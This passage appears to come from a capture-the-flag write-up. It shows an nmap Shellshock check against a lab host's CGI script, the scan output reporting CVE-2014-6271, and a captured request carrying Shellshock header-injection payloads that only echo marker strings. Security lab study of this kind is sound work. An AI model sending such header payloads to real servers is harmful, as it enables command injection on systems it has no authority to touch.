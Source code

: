 #### nmap

`nmap` has a [script](https://nmap.org/nsedoc/scripts/http-shellshock.html) to
test for ShellShock. I’ll need to give it the URI for the script to check:

    
    
    oxdf@parrot$ nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 07:17 EDT
    Nmap scan report for 10.10.10.56
    Host is up (0.019s latency).
    
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    | http-shellshock: 
    |   VULNERABLE:
    |   HTTP Shellshock vulnerability
    |     State: VULNERABLE (Exploitable)
    |     IDs:  CVE:CVE-2014-6271
    |       This web application might be affected by the vulnerability known
    |       as Shellshock. It seems the server is executing commands injected
    |       via malicious HTTP headers.
    |             
    |     Disclosure date: 2014-09-24
    |     References:
    |       http://www.openwall.com/lists/oss-security/2014/09/24/10
    |       http://seclists.org/oss-sec/2014/q3/685
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
    |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 6.66 seconds
    

I captured that in Wireshark to see what it was doing. The request with the
exploit check is:

    
    
    GET /cgi-bin/user.sh HTTP/1.1
    Connection: close
    Referer: () { :;}; echo; echo -n kgbyrbl; echo pkzxdko
    Cookie: () { :;}; echo; echo -n kgbyrbl; echo pkzxdko
    User-Agent: () { :;}; echo; echo -n kgbyrbl; echo pkzxdko
    Host: 10.10.10.56
    